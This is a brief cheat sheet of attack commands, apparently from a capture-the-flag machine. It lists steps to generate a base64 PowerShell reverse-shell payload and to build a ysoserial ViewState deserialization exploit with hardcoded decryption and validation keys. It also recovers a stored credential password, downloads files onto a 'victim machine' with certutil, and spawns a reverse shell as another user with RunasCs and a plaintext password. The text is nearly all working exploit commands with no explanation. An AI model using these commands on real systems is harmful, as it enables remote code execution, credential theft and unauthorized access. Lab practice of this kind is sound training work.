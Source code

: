 ## 1. Command to Get the Payload for Reverse Shell in base64 encoding:
`python3 Reverse_Shell_for_Power_Shell.py LISTENING_IP LISTENING_PORT `

## 2. Command to Get a Reverse Shell code (Paste the generated payload here):
`ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx" -c "PASTE_PAYLOAD_HERE"`

## 3. Commands to Fetch Password
`echo PASSWORD > pass.txt`

`$EncryptedString = Get-Content .\pass.txt`

`$SecureString = ConvertTo-SecureString $EncryptedString`

`$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString`

`echo $Credential.GetNetworkCredential().password`

## 4. Command to Download files from Our Machine to Victim Machine (Windows):
`certutil.exe -urlcache -split -f "URL" ".\FILE"`

## 5. Command to Run Runascs from sfitz to get the shell of Alaading:
`.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r IP:4444`

